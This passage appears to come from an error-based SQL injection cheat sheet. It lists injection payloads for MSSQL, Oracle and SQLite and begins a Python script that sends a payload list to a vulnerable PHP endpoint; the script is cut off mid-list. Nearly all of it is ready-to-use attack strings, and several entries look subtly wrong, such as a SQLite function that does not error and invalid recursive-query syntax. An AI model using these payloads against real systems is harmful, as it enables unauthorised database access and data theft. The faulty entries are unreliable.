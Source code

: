 #### SQL Injection with Error Functions
- Use built-in error functions to generate errors.
  ```sql
  '; RAISERROR('Error generated', 16, 1) --
  ```

### Oracle

#### Invalid Data Manipulation
- Oracle’s specific functions and data manipulation can cause errors.
  ```sql
  ' UNION SELECT UTL_INADDR.get_host_address('invalid_host') FROM dual --
  ```

#### Invalid XMLType Usage
- Use XMLType improperly to cause errors.
  ```sql
  ' UNION SELECT XMLType('<invalid><xml>') FROM dual --
  ```

#### Using SYS.DBMS_ASSERT
- Leverage Oracle’s assertion package to force errors.
  ```sql
  ' UNION SELECT SYS.DBMS_ASSERT.noop('invalid_input') FROM dual --
  ```

### SQLite

#### Invalid String Functions
- SQLite’s string functions can generate errors when used improperly.
  ```sql
  ' UNION SELECT SUBSTR('text', -1, 1) --
  ```

#### Invalid Mathematical Operations
- Use mathematical functions with invalid inputs.
  ```sql
  ' UNION SELECT POW('text', 2) --
  ```

#### Invalid Date Functions
- Use date functions with incorrect parameters.
  ```sql
  ' UNION SELECT DATE('invalid_date') --
  ```

### Python Script to Force Errors

#### Automating Error Injection

```python
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # MySQL
    "' AND EXP(~(SELECT * FROM (SELECT 1) t)) -- ",
    "' AND 0xG1 -- ",
    "' AND (SELECT * FROM (SELECT 1,2) t) = 1 -- ",
    # PostgreSQL
    "' AND 'a' ~ 'b[' -- ",
    "' AND jsonb_path_query_first('{'a':1}', '$.a') -- ",
    "' AND WITH RECURSIVE t AS (SELECT 1 UNION ALL SELECT 1 FROM t) SELECT * FROM t -- ",
    # MSSQL
    "; DECLARE @xml XML; SET @xml = '<root><a></a><b></b></root>'; SELECT @xml.value('(/root/c)[1]', 'INT') -- ",
```